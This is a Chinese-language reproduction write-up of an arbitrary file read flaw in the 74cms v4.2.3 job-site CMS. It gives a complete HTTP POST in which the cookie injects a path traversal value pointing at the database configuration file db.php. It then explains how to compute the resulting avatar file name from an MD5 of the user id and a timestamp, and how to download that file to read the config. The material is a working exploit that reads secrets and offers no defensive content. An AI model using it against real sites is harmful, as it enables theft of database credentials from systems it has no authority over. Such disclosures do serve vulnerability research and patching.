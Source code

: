 # 74cms v4.2.3 任意文件读取

## 一、漏洞简介
## 二、漏洞影响
74cms v4.2.3

## 三、复现过程
先尝试读取 db.php，向服务器post如下数据

```html
POST /index.php?m=&c=members&a=register HTTP/1.1
Host: www.0-sec.org
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/77.0.3865.120 Safari/537.36 
Accept-Encoding: gzip, deflate
Accept: */*
Connection: keep-alive
Cookie: members_bind_info[temp_avatar]=../../../../Application/Common/Conf/db.php; members_bind_info[type]=qq; members_uc_info[password]=xcxmiku; members_uc_info[uid]=123456; members_uc_info[username]=xcxmiku
Content-Type: application/x-www-form-urlencoded

ajax=1&reg_type=2&utype=2&org=bind&ucenter=bind
```

会返回如下数据

1.png

在/data/upload/avatar/年月/日文件夹下 会生成一张图片

2.png

这张图片的名称由id和时间戳的md5值构成，我们可以将Burp Suite上返回的时间转换为时间戳

3.png

不过这个时间可能会有误差，如果不行就把时间+-10

我post的id为654321，获取的时间戳为1571659588，将他们连在一起进行md5加密

4.png

成功获取图片名，然后访问

```html
https://www.0-sec.org/data/upload/avatar/1910/21/9aaa3653bf6ec9491bc002b52521962c.jpg 
```

保存该图片用文本打开就是 db.php 的内容。

### PS:
